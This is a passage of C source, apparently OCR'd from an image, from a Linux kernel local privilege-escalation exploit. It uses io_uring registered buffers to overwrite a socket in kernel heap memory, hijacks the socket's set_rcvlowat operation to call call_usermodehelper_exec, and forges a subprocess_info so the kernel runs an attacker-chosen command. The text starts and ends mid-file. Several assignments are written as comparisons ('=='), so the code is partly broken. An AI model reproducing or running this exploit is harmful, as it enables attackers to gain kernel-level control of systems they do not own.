 ```
                memcpy(recv_buf+sk_priority_offset,cmd_argv,80);
                uint64_t* sk_error_queue_addr = (uint64_t*)(recv_buf+sk_error_queue_offset);
                sk_error_queue_addr[0] = slub_sock_addr+sk_priority_offset;
                sk_error_queue_addr[1] = slub_sock_addr+sk_priority_offset+arg1_offset;
                sk_error_queue_addr[2] = slub_sock_addr+sk_priority_offset+arg2_offset;
                sk_error_queue_addr[3] = slub_sock_addr+sk_priority_offset+arg3_offset;
                sk_error_queue_addr[4] = 0;
        // 篡改 socket -> ops ->set_rcvlowat == call_usermodehelper_exec 
        // ops + 0x20 = set_rcvlowat
                *(uint64_t*)(recv_buf+sk_sk_socket_offset) = slub_sock_addr+sk_sk_socket_offset;
                *(uint64_t*)(recv_buf+sk_sk_socket_offset+socket_ops_offset) = slub_sock_addr;
                *(uint64_t*)(recv_buf+ops_set_rcvlowat_offset) = vmlinux_base + CALL_USERMODEHELPER_EXEC_OFFSET;
        //伪造 subprocess_info                
                uint64_t subprocess_info[11];
                memset(subprocess_info,0,sizeof(subprocess_info));
                subprocess_info[0] == 0x80; 
                subprocess_info[1] == slub_sock_addr + 8; 				    // work_struct.entry.next 
                subprocess_info[2] == slub_sock_addr + 8;				    // work_struct.entry.prev 
                subprocess_info[3] = vmlinux_base+CALL_USERMODEHELPER_EXEC_WORK_OFFSET;	    // func ==call_usermodehelper_exec_work
                subprocess_info[5] = slub_sock_addr+sk_priority_offset;	    // path_string_addr
                subprocess_info[6] = slub_sock_addr+sk_error_queue_offset; 	// argv_strings_addr
                memcpy(recv_buf,subprocess_info,sizeof(subprocess_info));
                submit_sqe(&ring,recv_fd,sock_addr,0x2000,SUBMIT_READ);
                logu("call_usermodehelper_exec fake done");
                int val = 0;
                setsockopt(sock_fd, SOL_SOCKET, SO_RCVLOWAT, &val, sizeof(val));
                logu("child done");
            }
            logu("father start");
            // waitpid(pid,0,0);
            sleep(5);
            submit_sqe(&ring,recv_fd2,sock_addr,0x2000,SUBMIT_READ);
            debug("debug oob_addr(%p)",oob_addr);
            logu("father done");
            // sleep(10);
            exit(-1);
        }

        io_uring_unregister_buffers(&ring);
        munmap(oob_buf,nr_pages* PAGE_SIZE);
    }
    
    munmap(recv_buf,block_size*PAGE_SIZE);
    close(recv_fd);
    for (size_t i = 0; i < nr_memfds ; i++)
    {
        close(sockets[i]);
        close(memfds[i]);
    }
    
    
    BLUE;puts("[*]end");CLOSE;
    return 0;
}

void bind_cpu(int core)
{
    cpu_set_t cpu_set;

```